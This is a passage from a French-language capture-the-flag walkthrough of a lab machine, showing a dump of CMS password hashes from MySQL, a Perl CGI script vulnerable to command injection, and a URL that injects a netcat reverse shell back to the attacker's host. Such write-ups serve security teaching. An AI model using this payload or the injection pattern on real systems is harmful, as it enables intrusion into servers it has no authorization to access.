 ```php
$config['db_port'] = 3306;
?>
```

Avec ce mot de passe je peux dumper les hashes du CMS mais aucun n'est trouvé par `crackstation.net`.

```
mysql> select * from cms_users;
+---------+----------+----------------------------------+--------------+------------+-----------+----------------------+--------+---------------------+---------------------+
| user_id | username | password                         | admin_access | first_name | last_name | email                | active | create_date         | modified_date       |
+---------+----------+----------------------------------+--------------+------------+-----------+----------------------+--------+---------------------+---------------------+
|       1 | qiu      | bc8b9059c13582d649d3d9e48c16d67f |            1 | qiu qing   | chan      | qiu@goodtech.inc     |      1 | 2021-05-21 17:06:29 | 2021-05-22 02:28:53 |
|       2 | patrick  | 6aea70cc6a678f0f83a82e1c753d7764 |            1 | Patrick    | Ong       | patrick@goodtech.inc |      1 | 2021-05-22 02:28:33 | 2021-05-22 16:54:13 |
+---------+----------+----------------------------------+--------------+------------+-----------+----------------------+--------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

Je remarque aussi des scripts dans `cgi-bin` dont l'un est vulnérable à une injection de commande (chemin exploitation alternatif) :

```perl
bash-4.4$ cat test.pl 
#!/usr/bin/perl
print "Content-type: text/html\n\n";
print "Welcome to Good Tech Inc Hint Corner.";
bash-4.4$ cat terriblescript.pl 
#!/usr/bin/perl -w

use strict;
use CGI ':standard';

print "Content-type: text/html\n\n";
my $file = param('file');
print "<P>You are previewing $file .";
system ("cat /var/www/html/$file");
```

On peut obtenir un shell `www-data` avec cette URL :

```
http://192.168.56.124/cgi-bin/terriblescript.pl?file=`nc%20-e%20/bin/bash%20192.168.56.1%207777`
```

Mais revenons à nos moutons... Il y a un utilisateur qiu sur le système et il est membre du groupe... `wheel`.

```
bash-4.4$ id qiu
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),10(wheel)
```
